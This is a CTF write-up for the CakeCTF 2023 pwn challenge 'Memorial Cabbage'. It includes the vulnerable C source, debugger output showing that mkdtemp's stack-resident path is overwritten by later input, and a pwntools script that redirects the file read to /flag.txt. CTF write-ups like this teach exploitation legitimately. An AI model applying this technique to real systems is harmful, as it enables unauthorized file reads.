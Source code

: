 # Memorial Cabbage

> Author: ptr-yudai<br>
> Description: Memorial Cabbage Unit 3<br>
> Attachment: [memorial-cabbage.tar.gz](https://raw.githubusercontent.com/d0UBleW/ctf/main/cake-ctf/pwn/memorial-cabbage/memorial-cabbage.tar.gz)<br>

<div class="hidden">
    <details>
        <summary>Keywords</summary>
        CakeCTF 2023, pwn
    </details>
</div>

## TL;DR

`mkdtemp` return value lives in the stack instead of heap which allow us to overwrite it.

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define TEMPDIR_TEMPLATE "/tmp/cabbage.XXXXXX"

static char *tempdir;

void setup() {
  char template[] = TEMPDIR_TEMPLATE;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);

  if (!(tempdir = mkdtemp(template))) {
    perror("mkdtemp");
    exit(1);
  }
  if (chdir(tempdir) != 0) {
    perror("chdir");
    exit(1);
  }
}

void memo_r() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "r")))
    return;
  fgets(buf, sizeof(buf) - 1, fp);
  fclose(fp);

  printf("Memo: %s", buf);
}

void memo_w() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  printf("Memo: ");
  if (!fgets(buf, sizeof(buf)-1, stdin))
    exit(1);

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "w")))
    return;
  fwrite(buf, 1, strlen(buf), fp);
  fclose(fp);
}

int main() {
  int choice;

  setup();
  while (1) {
    printf("1. Write memo\n"
           "2. Read memo\n"
           "> ");
    if (scanf("%d%*c", &choice) != 1)
      break;
    switch (choice) {
      case 1: memo_w(); break;
      case 2: memo_r(); break;
      default: return 0;
    }
  }
}
```

## Initial Analysis

At a glance, the program seems to not have any vulnerability. The `setup()`
function creates a temporary directory under `/tmp` and save the directory name
to `tempdir`. Both memo write and read have proper size constraints to prevent
buffer overflow and would operate on a file named `memo.txt` under `tempdir`.

Next, my plan is to just fill up `buf` with `0xfff` bytes of cyclic pattern and
observe any interesting outcome.

```console
gef> x/s (char*)tempdir
0x7ffd9aab6920: "/tmp/cabbage.FSWsBP"
gef> ni
gef> x/s (char*)tempdir
0x7ffd9aab6920: "bovabowaboxabo"
```

Turns out that our input overwrites part of `tempdir`. This happens because
`mkdtemp` returns `char *` that is pointing to the stack and when the `setup()`
returns, the string `/tmp/cabbage.FSWsBP` is located in the stack area which
would be used to allocate local variables when another function is called.
In this case, when `memo_w` is called, the memory which would be allocated for
`buf` overlaps with `tempdir`, which allows us to overwrite the path value.

```console
gef> x/5i memo_w+59
   0x55565ba76502 <memo_w+59>:  mov    rdx,QWORD PTR [rip+0x2b17]        # 0x55565ba79020 <stdin@GLIBC_2.2.5>
   0x55565ba76509 <memo_w+66>:  lea    rax,[rbp-0x1010]
   0x55565ba76510 <memo_w+73>:  mov    esi,0xfff
   0x55565ba76515 <memo_w+78>:  mov    rdi,rax
   0x55565ba76518 <memo_w+81>:  call   0x55565ba76180 <fgets@plt>
gef> x/gx $rbp-0x1010
0x7ffd9aab5930: 0x6161616261616161
gef> p/x 0x7ffd9aab5930+0x1000
$6 = 0x7ffd9aab6930
```

## Solution

Now that we are able to overwrite the value of `tempdir` and the memo path
is constructed everytime `memo_r` is called, we could overwrite `tempdir` to be
`/flag.txt\x00`. Since the length of `/flag.txt\x00` is shorter than `TEMPDIR_TEMPLATE`,
when `strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt")` is called, our NULL
termination stays and `fopen()` would open `/flag.txt`, instead of `/flag.txtgarbage/memo.txt`

> [!IMPORTANT]
> When testing locally, make sure that the running user has no write permission
> to `/flag.txt` since `memo_w` would not return early and instead overwrite
> the content of `/flag.txt`.

Final solve script:

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./cabbage", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc memorialcabbage.2023.cakectf.com 9001"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}
io = start()

io.sendline(b"1")
io.sendline(cyclic(0xff0) + b"/flag.txt\x00")
io.sendline(b"2")

io.interactive()
```

```console
$ ./solve.py REMOTE HOST=localhost PORT=9001
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
1. Write memo
2. Read memo
> Memo: 1. Write memo
2. Read memo
> Memo: FakeCTF{*** REDACTED ***}
1. Write memo
2. Read memo
> $
```
